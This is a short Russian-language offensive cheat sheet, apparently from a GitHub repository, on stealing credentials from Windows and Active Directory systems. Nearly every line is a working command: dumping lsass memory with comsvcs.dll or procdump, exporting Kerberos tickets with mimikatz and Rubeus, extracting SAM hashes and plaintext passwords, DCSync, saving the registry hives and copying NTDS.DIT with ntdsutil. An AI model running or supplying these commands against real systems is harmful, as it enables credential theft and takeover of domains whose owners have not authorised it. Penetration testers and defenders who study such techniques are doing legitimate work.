 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:  
Позволяет исользовать учетные данные домена, если нет связи с DC.   
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

## Powershell mimikatz:  
1) Invoke-Mimikatz -DumpCreds  
2) Invoke-Mimikatz -DumpCreds -ComputerName@("comp1","comp2")  

## DCSync with Kiwi:  
load kiwi  
dcsync_ntlm username  

## Manualy dump registry with Reg:
reg.exe save hklm\sam c:\temp\sam.save -> reg.exe save hklm\security c:\temp\security.save -> reg.exe save hklm\system c:\temp\system.save

**Crack dumped registry data:  
1. creddump7\pwdump.py system sam  
2. secretsdump.py -system system -sam sam LOCAL  

## Retrieval of NTDS.DIT with ntdsutil:  
ntdsutil "activate instance ntds" ifm "create full C:\temp\ntdsutil" quit quit  

